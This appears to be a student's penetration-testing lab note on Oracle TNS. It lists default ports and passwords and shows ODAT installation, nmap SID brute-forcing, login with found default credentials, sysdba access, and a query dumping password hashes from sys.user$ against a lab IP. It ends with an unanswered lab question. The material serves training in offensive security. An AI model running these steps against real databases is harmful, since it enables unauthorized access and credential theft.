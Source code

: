- Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it's dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.205.19 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.205.19
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.205.19/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

**ORACLE RDBMS Enumeration - Logging in as Sys Admin**
(substitute scott:tiger for robin:robin)
```
sqlplus robin/robin@10.129.205.19/XE as sysdba
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
```

Nmap
![[nmap_oracle_tns.png]]

No luck with hydra
![[Pasted image 20230813045715.png]]

